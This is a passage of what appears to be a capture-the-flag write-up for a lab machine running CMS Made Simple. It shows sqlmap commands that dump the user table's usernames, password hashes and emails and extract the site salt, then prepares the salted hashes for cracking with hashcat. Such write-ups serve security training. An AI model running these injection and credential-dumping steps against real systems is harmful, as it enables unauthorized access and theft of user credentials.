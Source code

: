 ```bash
| cms_module_search_words     |
| cms_module_smarty_plugins   |
| cms_module_templates        |
| cms_modules                 |
| cms_permissions             |
| cms_permissions_seq         |
| cms_routes                  |
| cms_siteprefs               |
| cms_user_groups             |
| cms_userplugins             |
| cms_userplugins_seq         |
| cms_userprefs               |
| cms_users                   |
| cms_users_seq               |
| cms_version                 |
+-----------------------------+
```

DB->cmsmsdb Table->cms_users:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb -T cms_users -C username,password,email --dump

Database: cmsmsdb
Table: cms_users
[2 entries]
+----------+----------------------------------+--------------------+
| username | password                         | email              |
+----------+----------------------------------+--------------------+
| admin    | c6c6b9310e0e6f3eb3ffeb2baff12fdd | admin@overflow.htb |
| editor   | e3d748d58b58657bfa4dffe2def0b1c7 | <blank>            |
+----------+----------------------------------+--------------------+
```

Ok, this looks promising...
Doing a little bit of research, this hashes are encrypted with salt and it can be found in the `cms_siteprefs` table under the `sitemask` column:

```
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb -T cms_siteprefs

...[snip]...

| sitemask | 6c2d17f37e226486

...[snip]...
```

### Cracking users hashes
In order to use hashcat we need to add the hashes into a file following th `hash:salt` format:
```
c6c6b9310e0e6f3eb3ffeb2baff12fdd:6c2d17f37e226486
e3d748d58b58657bfa4dffe2def0b1c7:6c2d17f37e226486
```
